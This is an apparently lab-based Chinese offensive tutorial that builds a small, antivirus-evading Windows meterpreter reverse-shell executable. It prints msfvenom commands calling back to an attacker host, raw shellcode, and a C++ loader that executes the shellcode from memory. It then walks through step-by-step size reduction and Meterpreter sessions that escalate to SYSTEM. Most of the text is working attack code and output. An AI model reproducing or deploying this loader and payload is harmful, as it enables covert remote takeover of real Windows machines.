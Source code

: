 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**攻击机：** 
192.168.1.5 Debian
**靶机：** 
192.168.1.4 Windows 7
192.168.1.119 Windows 2003

**攻击机配置：**

payload：windows/meterpreter/reverse_tcp
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.5 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53 
```
![](media/05b541c239afdafa628b0ef194eddcb7.jpg)

**payload生成：**
```
root@John:/tmp# msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐b '\x00' ‐f exe > First.exe
```

原始payload大小如下：
73802字节，大概在72KB

```bash
root@John:/tmp# du ‐sb First.exe
73802 First.exe
```

**第一次优化payload：**
提取windows/meterpreter/reverse_tcp shellcode

```bash
root@John:/tmp# msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐b '\x00' ‐f c
[‐] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[‐] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of c file: 1571 bytes
unsigned char buf[] =
"\\xd9\\xc3\\xba\\xa1\\x43\\xe5\\x72\\xd9\\x74\\x24\\xf4\\x5d\\x29\\xc9\\xb1"
"\\x56\\x31\\x55\\x18\\x03\\x55\\x18\\x83\\xc5\\xa5\\xa1\\x10\\x8e\\x4d\\xa7"
"\\xdb\\x6f\\x8d\\xc8\\x52\\x8a\\xbc\\xc8\\x01\\xde\\xee\\xf8\\x42\\xb2\\x02"
"\\x72\\x06\\x27\\x91\\xf6\\x8f\\x48\\x12\\xbc\\xe9\\x67\\xa3\\xed\\xca\\xe6"
"\\x27\\xec\\x1e\\xc9\\x16\\x3f\\x53\\x08\\x5f\\x22\\x9e\\x58\\x08\\x28\\x0d"
"\\x4d\\x3d\\x64\\x8e\\xe6\\x0d\\x68\\x96\\x1b\\xc5\\x8b\\xb7\\x8d\\x5e\\xd2"
"\\x17\\x2f\\xb3\\x6e\\x1e\\x37\\xd0\\x4b\\xe8\\xcc\\x22\\x27\\xeb\\x04\\x7b"
"\\xc8\\x40\\x69\\xb4\\x3b\\x98\\xad\\x72\\xa4\\xef\\xc7\\x81\\x59\\xe8\\x13"
"\\xf8\\x85\\x7d\\x80\\x5a\\x4d\\x25\\x6c\\x5b\\x82\\xb0\\xe7\\x57\\x6f\\xb6"
"\\xa0\\x7b\\x6e\\x1b\\xdb\\x87\\xfb\\x9a\\x0c\\x0e\\xbf\\xb8\\x88\\x4b\\x1b"
"\\xa0\\x89\\x31\\xca\\xdd\\xca\\x9a\\xb3\\x7b\\x80\\x36\\xa7\\xf1\\xcb\\x5e"
"\\x04\\x38\\xf4\\x9e\\x02\\x4b\\x87\\xac\\x8d\\xe7\\x0f\\x9c\\x46\\x2e\\xd7"
"\\x95\\x41\\xd1\\x07\\x1d\\x01\\x2f\\xa8\\x5d\\x0b\\xf4\\xfc\\x0d\\x23\\xdd"
"\\x7c\\xc6\\xb3\\xe2\\xa8\\x72\\xbe\\x74\\x93\\x2a\\xbf\\x81\\x7b\\x28\\xc0"
"\\x89\\x4e\\xa5\\x26\\xd9\\xe0\\xe5\\xf6\\x9a\\x50\\x45\\xa7\\x72\\xbb\\x4a"
"\\x98\\x63\\xc4\\x81\\xb1\\x0e\\x2b\\x7f\\xe9\\xa6\\xd2\\xda\\x61\\x56\\x1a"
"\\xf1\\x0f\\x58\\x90\\xf3\\xf0\\x17\\x51\\x76\\xe3\\x40\\x06\\x78\\xfb\\x90"
"\\xa3\\x78\\x91\\x94\\x65\\x2f\\x0d\\x97\\x50\\x07\\x92\\x68\\xb7\\x14\\xd5"
"\\x97\\x46\\x2c\\xad\\xae\\xdc\\x10\\xd9\\xce\\x30\\x90\\x19\\x99\\x5a\\x90"
"\\x71\\x7d\\x3f\\xc3\\x64\\x82\\xea\\x70\\x35\\x17\\x15\\x20\\xe9\\xb0\\x7d"
"\\xce\\xd4\\xf7\\x21\\x31\\x33\\x84\\x26\\xcd\\xc1\\xa3\\x8e\\xa5\\x39\\xf4"
"\\x2e\\x35\\x50\\xf4\\x7e\\x5d\\xaf\\xdb\\x71\\xad\\x50\\xf6\\xd9\\xa5\\xdb"
"\\x97\\xa8\\x54\\xdb\\xbd\\x6d\\xc8\\xdc\\x32\\xb6\\xfb\\xa7\\x3b\\x49\\xfc"
"\\x57\\x52\\x2e\\xfd\\x57\\x5a\\x50\\xc2\\x81\\x63\\x26\\x05\\x12\\xd0\\x39"
"\\x30\\x37\\x71\\xd0\\x3a\\x6b\\x81\\xf1";
```
![](media/c02510e309ce675fbb9967d140f9349a.jpg)

建立Micropoor_small_payload工程，配置如下：

![](media/e70e50159dcedd636390c6fa85b020b2.jpg)

![](media/bae881deb4bd31f0a9bae8e76b42317f.jpg)

**源码如下：**
```c++
# include <windows.h>
int main(void)
{
char *shellcode = (char *)"Micropoor_shellcode"; 

DWORD Micropoor_shellcode;
BOOL ret = VirtualProtect(shellcode, strlen(shellcode),
PAGE_EXECUTE_READWRITE, &Micropoor_shellcode);
if (!ret) {
return EXIT_FAILURE;
}
((void(*)(void))shellcode)();
return EXIT_SUCCESS;
}
```

**原始shellcode_payload大小如下：**
75776字节

![](media/54c47b96f743bf3ebc746cc37dbe3b76.jpg)

**优化：**
在优化的过程中，需要确保

* 性能
* 稳定性
* 大小
* 可塑性
* 免杀性

**非算法，故优化/01**
![](media/161777edfb7fa266eb4210cd530675be.jpg)

无使用预编译头，故否
![](media/7f60d00c6e928957e7739914e27b8618.jpg)

**无需调试信息，故否**
![](media/899a118c7ee938b168bcf1ae5677d2ac.jpg)

**自定义入口点：execMicropoor_shellcode**
![](media/55a9e1b87b08ce164cf6bee8167d3491.jpg)

**再次编译：**
![](media/357710f6faabc6604bbaa35592ce79db.jpg)

**payload大小如下：**
4608字节
![](media/bdd9366a5d3006aaaab48cf97908022b.jpg)

**第一次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。

![](media/542ba22b5fc53ca130875f92d4bef49e.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 4 opened (192.168.1.5:53 ‐> 192.168.1.119:3887) at 2019‐01‐27 14:30:27 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > 
```

**第二次优化payload：**

载入PEID
![](media/d176f010a1d7452d445b3104d0abeadc.jpg)

**合并data to text，rdata to text 在次生成。**
![](media/0b89c5497f2f22d399e3e7030fd521f0.jpg)

**Section变化如下：**
![](media/a199a5e70d9ace704ba3501be0de41e4.jpg)

**payload大小如下：**
4096字节
![](media/7b7ccfb69f47d0f2d8a901f885f2899a.jpg)

**第二次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。
![](media/a1daafaffa7abc656d309fb8429cbebf.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 9 opened (192.168.1.5:53 ‐> 192.168.1.119:3891) at 2019‐01‐27 14:46:20 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 1232 
```

**第三次优化payload：**

在00000E60起含有大部分000h，充填掉00，在次生成payload。

```bash
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
....
```
![](media/22aa6b22b6a725c1cd042fe3d272c195.jpg)

**payload大小如下：**
3174字节
![](media/583f8432508fadce87963dda9074623a.jpg)

**第三次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。并且最终编译运行库依然为：**/MT**
![](media/4e172aa523497f62e049cc0e7dfb622a.jpg)

![](media/25c74a3a578b2e23477821175b489769.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 11 opened (192.168.1.5:53 ‐> 192.168.1.119:3894) at 2019‐01‐27 14:56:30 ‐0500 6
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 3152
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
![](media/74defd3d7b4b42c88aadac9d9d4fd476.jpg)

**第四次优化payload：**

.......

文中的前三次优化，三次生成，已满足大部分实战场景。当遇到更苛刻的实战场景，75776字节优化到3174字节，接下来的季中，会继续优化。

>   Micropoor
